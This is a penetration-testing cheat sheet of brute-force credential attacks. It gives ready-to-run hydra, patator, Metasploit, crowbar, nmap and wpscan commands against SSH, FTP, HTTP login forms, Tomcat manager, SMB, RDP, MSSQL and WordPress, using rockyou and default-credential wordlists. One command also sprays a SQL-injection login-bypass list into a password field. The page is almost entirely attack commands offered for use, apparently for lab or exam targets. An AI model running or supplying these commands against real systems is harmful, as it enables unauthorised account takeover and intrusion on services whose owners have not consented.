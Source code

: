 # Brute-Force attack



### SSH

{% code overflow="wrap" %}
```bash
patator ssh_login host=10.5.5.11 port=22 user=dev password=FILE0 0=/usr/share/wordlists/rockyou.txt persistent=0 -x ignore:mesg='Authentication failed.' -x quit:code=0
```
{% endcode %}

### FTP

{% code overflow="wrap" %}
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt -t 32 ftp://192.168.0.1

# Metasploit
msf
use auxiliary/scanner/ftp/ftp_login
msf auxiliary(ftp_login) > show options
msf auxiliary(ftp_login) > set PASS_FILE /usr/share/wordlist/rockyou.txt
msf auxiliary(ftp_login) > set USER_FILE ./users.txt
msf auxiliary(ftp_login) > set RHOSTS 10.11.1.8,13,14,22
msf auxiliary(ftp_login) > run
```
{% endcode %}

### HTTP/HTTPS GET

{% code overflow="wrap" %}
```bash
patator  http_fuzz  method=GET  follow=0  accept_cookie=0  --threads=1  timeout=10 url="http://192.168.1.44/?username=FILE1&password=FILE0&Login=Login" 
0=/usr/share/seclists/Usernames/top_shortlist.txt 1=/usr/share/seclists/Passwords/rockyou-40.txt header="Cookie: security=low; PHPSESSID=${SESSIONID}" -x quit:fgrep='Welcome to the password protected area'

patator http_fuzz method=GET follow=0 accept_cookie=0 timeout=10 url="http://192.168.142.214/admin.php?username=FILE0&password=FILE1" 0=ldap.txt 1=ldap.txt -x ignore:fgrep='Invalid login'

patator http_fuzz method=GET follow=0 accept_cookie=0 timeout=10 url="http://192.168.142.214/admin.php?username=FILE0&password=FILE1" 0=ldap.txt 1=ldap.txt -x ignore:fgrep='Invalid login'

```
{% endcode %}

### HTTP/HTTPS POST

{% code overflow="wrap" %}
```bash
hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt 10.1.1.1 \
http-post-form "/accounts/login/?next=/:csrfmiddlewaretoken=aFt9B4XORspniIgLhKTnAMawvt0MTz87&username=admin&password=^PASS^&next=%2Flicensing%2F:Sorry, that's not an active username or password" -V

hydra -L users.txt -P passwords2.txt 10.200.74.232 http-post-form '/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect' -v

patator http_fuzz method=POST follow=0 accept_cookie=0 --threads=1 timeout=10 url='http://192.168.128.10/login.php' 0=/opt/webapp/sql-login-bypass.md body='username=&password=FILE0' -x ignore:fgrep='Wrong username or password' -x ignore:fgrep='invalid query'
```
{% endcode %}

### HTTP BASIC AUTH (in case of tomcat platform )

{% code overflow="wrap" %}
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
```
{% endcode %}

### HTTP POST with cewl

{% code overflow="wrap" %}
```bash
# Create keyload list from the page

cewl http://10.1.1.1/otrs/installer.pl>>cewl
hydra -V -l root@localhost -P cewl 10.11.1.39 http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=-540&User=^USER^&Password=^PASS^:failed"
```
{% endcode %}

### SMB

{% code overflow="wrap" %}
```bash
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt 192.168.1.12 smb -t 1
```
{% endcode %}

### RDP

{% code overflow="wrap" %}
```bash
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://192.168.1.1
crowbar -b rdp -s 10.1.1.1/32 -U users.txt -C /usr/share/wordlists/rockyou.txt -n 10
```
{% endcode %}

### MSSQL

{% code overflow="wrap" %}
```bash
cat /usr/share/seclists/Passwords/Default-Credentials/mssql-betterdefaultpasslist.txt | cut -d : -f 1 > user.txt
cat /usr/share/seclists/Passwords/Default-Credentials/mssql-betterdefaultpasslist.txt | cut -d : -f 2 > pass.txt
hydra -L ./user.txt –P ./pass.txt 10.1.1.1 mssql
nmap -p 1433 --script ms-sql-brute --script-args userdb=./user.txt,passdb=./pass.txt 10.1.1.1
```
{% endcode %}

### WordPress

{% code overflow="wrap" %}
```bash
wpscan --url http://192.168.142.145/wordpress --wordlist /root/wd/rockyou.txt --username admin --threads 50
```
{% endcode %}
